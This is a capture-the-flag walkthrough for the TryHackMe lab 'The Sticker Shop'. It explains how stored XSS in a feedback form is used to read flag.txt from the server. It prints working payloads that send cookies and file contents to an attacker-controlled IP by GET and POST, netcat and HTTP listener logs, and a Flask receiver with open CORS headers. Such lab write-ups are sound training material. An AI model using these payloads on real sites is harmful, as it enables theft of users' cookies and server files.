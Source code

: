 ```yaml
---
title: "The Sticker Shop"
date: 2024-11-29T16:02:41-06:00
draft: false
tags:
- THM
- XSS
- Web Exploitation
---
```


![The Sticker Shop](/img/the_sticker_shop/the_sticker_shop.png#center)

### Description
[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-rated challenge on Tryhackme. We exfiltrate ```flag.txt``` from the web server through a XSS attack.


### Walkthrough
We are told that we need to read the flag at ```http://10.10.102.204:8080/flag.txt```. However, visiting the URL, we are met with a 401 Unauthorized message, meaning we are not authenticated to view the file.

![Direct access 401 forbidden](/img/the_sticker_shop/401.png)

If we backtrack to the webapp's homepage, we see that there is a page for submitting feedback where we can presumably send content to the sticker shop staff. This might be our way in.

![](/img/the_sticker_shop/feedback.png)

I started by sending a simple XSS payload to attempt to exfiltrate user cookies.

```html
<script>new Image().src="http://10.13.48.55/?c="+document.cookie</script>
```

```
┌──(kali㉿kali)-[/tmp]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.102.204 - - [29/Nov/2024 19:56:47] "GET /?c= HTTP/1.1" 200 -
10.10.102.204 - - [29/Nov/2024 19:56:58] "GET /?c= HTTP/1.1" 200 -
```

Unfortunately, this does not work. The webapp may have some sort of defense mechanism (e.g. HttpOnly). Heck, it may not be using cookies at all. Without further information, it will be difficult to obtain any account secrets, if they exist in the first place. We need to focus on directly accessing ```flag.txt``` through our XSS payload instead. 

A quick and dirty way of doing this would be embedding ```flag.txt```'s contents into a query string. Below is a payload that reads ```flag.txt``` on the server side and sends the data back to us with a GET request.

```html
<script>
    function sendData(data) {
        const url = new URL("http://10.13.48.55");
        url.searchParams.append("data", data);
        fetch(url)
    }

    fetch("http://127.0.0.1:8080/flag.txt")
        .then(response => response.text())
        .then(data => {
            sendData(data);
        })
        .catch(error => console.error('Error:', error));
</script>
```

![Quick and dirty GET flag](/img/the_sticker_shop/flag_get.png)

But what if you want to read a file that is much larger, or you don't want the data to be visible in the URL, perhaps for greater stealth? In that case, you would be better off using POST instead of GET.

```html
<script>
    function sendData(data){
        fetch("http://10.13.48.55", {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify(data)
        })
    }

    fetch("http://127.0.0.1:8080/flag.txt")
        .then(response => response.text())
        .then(data => {
            sendData(data)
        })
</script>
```

The problem is that Python's simple HTTP server only supports GET and HEAD requests, and the sticker website is sending a preflight request, so netcat is out of the question as well...

```
┌──(kali㉿kali)-[/tmp]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.13.48.55] from (UNKNOWN) [10.10.102.204] 52614
OPTIONS / HTTP/1.1
Host: 10.13.48.55
Connection: keep-alive
Accept: */*
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type
Origin: http://127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

We need to respond appropriately in order to receive the POST request containing ```flag.txt```. Specifically, we need to respond with the correct ```Access-Control-Allow-Origin```, ```Access-Control-Allow-Methods```, and ```Access-Control-Allow-Headers``` headers.

```
Access-Control-Allow-Origin: Specifies what domains are allowed to access a resource.
Access-Control-Allow-Methods: Indicates which HTTP methods are allowed.
Access-Control-Allow-Headers: Represents the HTTP headers that are permitted.
```

Now to whitelist any host[^1], the HTTP POST and OPTIONS, as well as the Content-Type header. I spun up a Flask server to do this:

[^1]: The request from flag shop comes from a random high port and there is no way to allow traffic from any port on a host.

```python
from flask import Flask, request


app = Flask(__name__)

@app.route('/', methods=['POST', 'OPTIONS'])
def handler():
    if request.method == 'OPTIONS':
        headers = {
                'Access-Control-Allow-Origin' : '*',
                'Access-Control-Allow-Methods' : 'POST, OPTIONS',
                'Access-Control-Allow-Headers' : 'Content-Type'
        }
        return '', 200, headers

    elif request.method == 'POST':
        data = request.get_json()
        print(data)
        return '', 200

    return '', 405

if __name__ == '__main__':
    app.run()
```

And now, we should successfully receive our flag.

![POST flag](/img/the_sticker_shop/flag.png)